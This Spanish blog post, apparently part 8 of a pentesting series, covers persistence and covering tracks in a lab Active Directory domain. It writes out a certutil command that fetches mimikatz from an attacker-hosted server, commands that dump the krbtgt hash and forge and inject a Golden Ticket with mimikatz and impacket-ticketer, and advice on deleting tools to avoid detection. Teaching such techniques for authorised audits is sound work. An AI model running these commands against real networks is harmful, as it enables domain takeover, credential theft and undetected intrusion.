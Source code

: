 ```yaml
---
layout: post
title: METODOLOGÍA DE PENTESTING HACIA UN DIRECTORIO ACTIVO. PERSISTENCIA Y BORRADO
  DE HUELLAS (PARTE 8) (ES)
categories:
- español
tags:
- metodología
- pentesting
- Active Directory
img_path: "/assets/img/posts/20230131/"
date: 2023-01-31 00:00 +0000
---
```

Hola a todos,

Una vez ejecutados todos los ataques disponibles y conseguir acceso como usuario con bajos privilegios, si esto se acontece, el pentester intentará conseguir permisos de administración para instalar una puerta trasera para obtener persistencia en los sistemas, una vez obtenida la persistencia se deberán borrar todas las huellas para no ser detectados.

# Introducción 

Tras conseguir las contraseñas de usuarios administradores, mediante el ataque ASREPRoast visto en el anterior post y conectarse al AD como administrador, se debe establece la persistencia en la máquina, con el fin de mantener un privilegio de administrador sobre las máquinas a pesar de que estas se reinicien o los usuarios cambien sus contraseñas.

Para la eliminación de huellas tras la ejecución de las vulnerabilidades, se debe realizar una limpieza de los sistemas vulnerados, desde los scripts y/o binarios u otros tipos de archivos utilizados temporalmente. Por otro lado, la
configuración del sistema también debe restaurarse a su estado anterior a la auditoría original y debe eliminarse la puerta trasera, si se tratase de una auditoría verídica.


![Persistencia](persistencia.png){: width="1232" height="554" }
_Persistencia_Persistencia

# Persistencia

La herramienta que vamos a utilizar para establecer la persistencia es [**mimikatz**](https://github.com/ParrotSec/mimikatz) que se descargará en el AD, mediante la herramienta de conexión impacket-psexec vista anteriormente y con la ejecución del comando:

```bash
certutil.exe -f -urlcache -split http://192.168.140.128:8000/mimikatz.exe mimikatz.exe
```
Que descargará la herramienta de un servidor web alojado por el atacante.

## Golden Ticket y Silver Ticket

La función del ataque del Golden Ticket es construir un [**TGT**](https://www.tarlogic.com/es/blog/tickets-de-kerberos-explotacion/). Esto requiere el hash de la cuenta krbtgt, la cuenta utilizada para encriptar el Ticket. Una vez que se obtiene este hash, se puede generar un TGT con el tiempo de vencimiento requerido y, entre otras cosas, se pueden otorgar los permisos que se deseen, se pueden obtener derechos de administrador de dominio, etc.

Por lo tanto, se debe considerar que la validez del TGT depende de dos cosas: el tiempo de caducidad especificado y el hash NTLM (la contraseña de la cuenta krbtgt) en el que está encriptado. Si caduca o se cambia la contraseña de la cuenta krbtgt, el ticket sigue siendo válido independientemente de si la contraseña del usuario suplantado ha caducado.

Silver Ticket es similar, pero esta vez el ticket generado es un ST, que requiere el hash NTLM de la cuenta de dominio asociada con el servicio al que desea acceder. Como se ha indicado se debe obtener el hash de la cuenta krbtgt, para ello desde la herramienta mimikatz, que se ha visto anteriormente se ejecuta este comando para obtener toda la información de la cuenta de usuario krbtgt.

```bash
lsadump::lsa /inject /name:krbtgt
```

![Herramienta Mimikatz lsadump](mimikatz-lsadump.png){: width="972" height="589" }
_Mimikatz lsadump tool_


Con estos datos se genera un archivo que guardará el TGT (.kirbi) y con el que se podrá acceder desde cualquier equipo del dominio, mediante la ejecución del siguiente comando:

```bash
kerberos::golden /domain:jcaballer.local /sid:S-1-5-21-2113225452-1616628721-3036420712 /rc4:68d55b3d5bb0eafe54b8aa8ef608cb28 /user:jcaballeradm / ticket:gold.kirbi
```

Donde el parámetro sid es el id del usuario krbtgt, el rc4 es el hash NTML, el parámetro user es el usuario con el que se accederá y el parámetro ticket es donde se guardará el Ticket. 

![Herramienta Mimikatz kerberos::golden](mimikatz-golden.png){: width="972" height="589" }
_Herramienta Mimikatz kerberos::golden_


Desde cualquier equipo perteneciente al AD con esos documentos, se puede obtener acceso de administrador. Para realizar la prueba en este proyecto, primero se comprueba que no se obtiene acceso, para posteriormente comprobar que sí, como puede verse en la siguiente imagen.

![Prueba de acceso sin Golden Ticket](no-golden.png){: width="972" height="589" }
_Prueba de acceso sin Golden Ticket_

Tras la importación del Golden Ticket se comprueba que se puede acceder, desde cualquier equipo del AD, con el comando del mimikatz:

```bash
kerberos::ptt gold.kirbi
```

![Prueba de acceso con Golden Ticket](si-golden.png){: width="972" height="589" }
_Prueba de acceso con Golden Ticket_

Otra herramienta que se puede utilizar para llevar a cabo este ataque es [**impacket-ticketer**](https://github.com/SecureAuthCorp/impacket/blob/3c6713e309cae871d685fa443d3e21b7026a2155/examples/ticketer.py) primero creará y guardará un Golden Ticket para el usuario que se elija que estará todo encriptado/firmado usando RC4; si se especifica -aesKey en lugar de                  -ntHash todo será encriptado usando AES128 o AES256 (dependiendo de la clave especificada) y además no se genera tráfico contra el KDC. 

Para ello se utilizará el comando, donde se facilita el id y el hash NTLM del usuario krbtgt, sobre el dominio con el usuario administrador.

```bash
impacket-ticketer -nthash 68d55b3d5bb0eafe54b8aa8ef608cb28 -domain-sid S-1-5-21-2113225452-1616628721-3036420712 -domain jcaballer.local jcaballeradm
```

![Herramienta impacket-ticketer](impacket-ticketer.png){: width="972" height="589" }
_Herramienta impacket-ticketer_

# Borrado de huellas

Tras conseguir la persistencia en todos los equipos de AD, se debe eliminar todos los archivos que han sido subidos a estos, ya sean scripts o documentación, en el caso de este proyecto, se han descargado varios archivos en los equipos del AD, como el script de PowerShell que devolvía una reverse shell hacia el equipo del atacante, la herramienta mimikatz o el archivo para realizar una copia del disco, por lo que todos esos archivos se deben eliminar.

# Estado final

Finalmente, el pentester ha cumplido su trabajo siguiendo la metodología expuesta.

![Estado Final](estado.png){: width="1232" height="554" }
_Estado Final_

___
# Conclusión

Esto sería todo para obtener la persistencia en el entorno y borrar las huellas que podamos haber dejado, con esto finaliza la metodología presentada para hacer el pentesting. Sin embargo, voy a publicar dos post mas donde incluiré algunas propuestas de seguridad que pueden emplear los administradores de sistemas y una pequeña conclusión del proyecto final.

